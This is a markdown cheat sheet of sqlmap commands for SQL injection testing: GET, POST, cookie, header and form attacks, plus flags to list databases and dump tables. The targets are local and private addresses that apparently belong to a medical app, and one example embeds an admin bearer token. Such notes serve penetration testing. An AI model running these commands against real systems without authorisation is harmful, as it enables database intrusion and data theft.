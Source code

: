 # [SQL] sqlmap
https://github.com/sqlmapproject/sqlmap

## Aim target
### Basic usage
```bash
sqlmap -u "http://localhost:8080/user.php?id=7"
```

## GET attack
### Basic usage
```bash
sqlmap -u "http://localhost:8080/user.php?id=7"
```

### With Query
```bash
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```

### With Parameter and with delay
```bash
sqlmap -u "http://172.23.112.1:3001/patient/lookup/a" -p "a" --tables --delay=5
```

### Perform in-depth and risky attacks
```bash
sqlmap -u "http://172.23.112.1:3001/manage" --level=3 --risk=3
```

### Enumerate DBMS database tables with `tables`
```bash
sqlmap -u "http://172.23.112.1:8080/api/v1/users/getInjections?username=Tom" -p "username" --level=3 --tables
```

### With Headers
```bash
sqlmap -u "http://172.23.112.1:3001/client/prescription-list" --level=3 --headers="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyYWRtaW4iLCJzdWIiOjEsInJvbGUiOiJhZG1pbiIsImRvY3Rvcl9jb2RlIjpudWxsLCJpYXQiOjE2NjI2NDg5MTEsImV4cCI6MTY5NDE4NDkxMX0.5zjJ0fJSX_s76b5BScUBDMpDOO0GpMrnA_0L1TCu8lM"
``` 

### With cookies
```bash
sqlmap -u "http://localhost:8080/admin.php" --cookie "customerId=591edabaab5b52292042df8a"
```

## POST attack
### Basic usage
```bash
sqlmap -u "http://localhost:8080/admin.php" --data="id=1&name=admin"
sqlmap -u "http://localhost:8080/login/password" --data="username=tom&password=123"
```

### With random-agent
```bash
sqlmap -u "http://172.23.112.1:8080/login/password" --data="username=tom&password=123" --level=3 --random-agent --ignore-code 401
```

```bash
sqlmap -u "http://172.23.112.1:8080/signup" --data="username=tom&password=123&re_password=123" --level=3 --random-agent --ignore-code 401
```

## Form attack
```bash
sqlmap -u "http://localhost:8080/admin.php" --forms
```


## Basic Tag
```
Shows list: --dbs
Shows all tables: -D 'db_name' --tables
Set Url: -u 


After success to injections
Get DB Name: --dbs OR --current-db
Get Tables: --tables
Get col: --columns 
Get datas from tables: --dump 
```